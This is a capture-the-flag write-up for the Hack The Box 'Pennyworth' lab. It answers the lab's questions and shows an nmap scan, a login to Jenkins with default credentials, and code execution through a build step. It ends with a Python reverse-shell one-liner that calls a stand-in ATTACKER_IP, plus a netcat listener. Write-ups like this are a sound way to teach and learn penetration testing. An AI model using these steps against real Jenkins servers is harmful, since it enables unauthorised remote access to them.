










|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |  Very Easy |  | 10.129.82.175 |  | [Tier 1: Pennyworth](https://app.hackthebox.com/starting-point) |  |

---

### [ What does the acronym CVE stand for? ]

Common Vulnerabilities and Exposures

---

### [ What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? ]

Confidentiality, Integrity, Availability

---

### [ What is the version of the service running on port 8080? ]

Let's run an nmap scan on the target machine. We load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.175
```



From the results, we can see that only 1 port is open: **8080 (HTTP)**

The service version running is: **Jetty 9.4.39.v20210325**

---

### [ What version of Jenkins is running on the target? ]

Let's visit `http://10.129.82.175:8080`



We are brought to a Jenkins login page.

I tried common admin credentials, such as **admin:admin** and **root:root**. 

Eventually, I came across a set of creds that allowed me to log in:

> root : password



From the bottom of the page, we can see the Jenkins version: **2.289.1**

---

### [ What type of script is accepted as input on the Jenkins Script Console? ]



**Groovy** script is accepted as input.

---

### [ What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? ]

cmd.exe

---

### [ What is a different command than "ip a" we could use to display our network interfaces' information on Linux? ]

`ifconfig`

---

### [ What switch should we use with netcat for it to use UDP transport mode? ]

`-u`

---

### [ What is the term used to describe making a target host initiate a connection back to the attacker host? ]

reverse shell

---

### [ Submit root flag ]

We can use Jenkin's Groovy Script Console to open a reverse shell back to us (the attacker).

First, we click on the '**Groovy Script**' project on the dashboard. This will bring us to the following page:



Next, we click on **Configure** on the left side-bar, which will bring us to the configuration page for the Groovy Script Console.

Scroll down to the **Build** section. Click on **Add build step** > **Execute shell**. Let's try to run a simple `id` command:



After saving, we will be brought back to the main page.

Click on **Build Now** on the left side-bar. After some time, a new entry should appear at the bottom left, under **Build History**:



*(There should only be 1 entry, I've already built multiple times)*

Click on the new entry, then click on **Console Output**:



Nice! The `id` command was successfully run and we have achieved remote code execution. We can now open a reverse shell back to our machine. 

*(I'll be using the Python payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))*

Replace `id` in the build settings with:

```
export RHOST="ATTACKER_IP";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Next, set up a netcat listener running on your specified port:

```
nc -lvnp 4444
```

Finally, build the project.



The reverse shell is opened and we're in!

The **root flag** can be found in /root:


